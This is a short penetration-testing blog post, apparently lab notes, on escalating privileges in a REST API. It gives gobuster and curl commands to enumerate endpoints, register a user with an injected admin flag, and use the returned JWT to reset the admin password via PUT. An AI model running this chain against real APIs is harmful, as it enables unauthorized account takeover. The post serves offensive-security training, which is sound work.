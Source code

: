 ```yaml
---
layout: post
title: API Priv Escalation
titledate: 08/25/23
tags: ["infosec","offsec","web", "api", "gobuster", "burpsuite"]
---
```


<h4>Brute Force with Gobuster</h4>

We can use Gobuster to brute force APIs by creating a pattern file
    {GOBUSTER}/v1
    {GOBUSTER}/v2

    $ gobuster dir -u http://192.168.128.20:2002 -w /usr/share/wordlists/dirb/big.txt -p pattern

We can then use curl to inspect the APIs that get returned

    $ curl -i http://192.168.128.20:2002/users/v1

From our response we get many users so we can take a look at what apis they have access to

    $ gobuster dir -u http://192.168.128.20:2002/users/v1/admin/ -w /usr/share/wordlists/dirb/small.txt

If we examine the password API

    $ curl -i http://192.168.128.20:2002/users/v1/admin/password

we get METHOD NOT ALLOWED indicating the API exists for the user but the GET method we are using is not supported
so we can try other HTTP methods to see what is supported

here we check if a certain api is supported for a user 

    $ curl -i http://192.168.128.20:2002/users/v1/login

    "USER NOT FOUND"

This response means the api exists but not for the user

We can use curl to pass an HTTP POST with json arguments for the admin user

    $ curl -d '{"password":"fake","username":"admin"}' -H 'Content-Type: application/json'  http://192.168.128.20:2002/users/v1/login

In this example the login fails with password incorrect, but indicates we have correct json login parameters for the api

<h4>User PRIV Escalation</h4>

One idea is to try and create a new user account with admin priveleges. From here maybe we can gain access and alter the existing admin account access

    $ curl -d '{"password":"lab","username":"dlo","email":"pwn@dlo.com","admin":"True"}' -H 'Content-Type: application/json' http://192.168.128.20:2002/users/v1/register

We correctly form the HTTP request with the username and password json parameters and all required other parameters but pass the parameter admin to test if it allows this

If we get a successful account creation, we can try to login with our newly created admin account

    $ curl -d '{"password":"lab","username":"dlo"}' -H 'Content-Type: application/json'  http://192.168.128.20:5002/users/v1/login

The response here will give us a JWT authentication token

Now we can try to login as the admin account with our new admin auth token and update the admin password

    $ curl  \
  'http://192.168.128.20:2002/users/v1/admin/password' \
  -H 'Content-Type: application/json' \
  -H 'Authorization: OAuth eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE2NDkyNzEyMDEsImlhdCI6MTY0OTI3MDkwMSwic3ViIjoib2Zmc2VjIn0.MYbSaiBkYpUGOTH-tw6ltzW0jNABCDACR3_FdYLRkew' \
  -d '{"password": "pwned"}'

In this case we get method not allowed as a response so we can try an alternate HTTP method like PUT

    curl -X 'PUT' \
  'http://192.168.128.20:2002/users/v1/admin/password' \
  -H 'Content-Type: application/json' \
  -H 'Authorization: OAuth eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE2NDkyNzE3OTQsImlhdCI6MTY0OTI3MTQ5NCwic3ViIjoib2Zmc2VjIn0.OeZH1rEcrZ5F0QqLb8IHbJI7f9KaRAkrywoaRUAsgA4' \
  -d '{"password": "pwned"}'

If this works we should be able to login as the admin account via the api with our newly changed password

    $ curl -d '{"password":"pwned","username":"admin"}' -H 'Content-Type: application/json'  http://192.168.128.20:2002/users/v1/login

<h4>Burpsuite API Testing</h4>

Burpsuite can be very useful in enumerating apis and allowing for quick testing of requests and responses. It will keep track of all of them in the sitemap for quick access






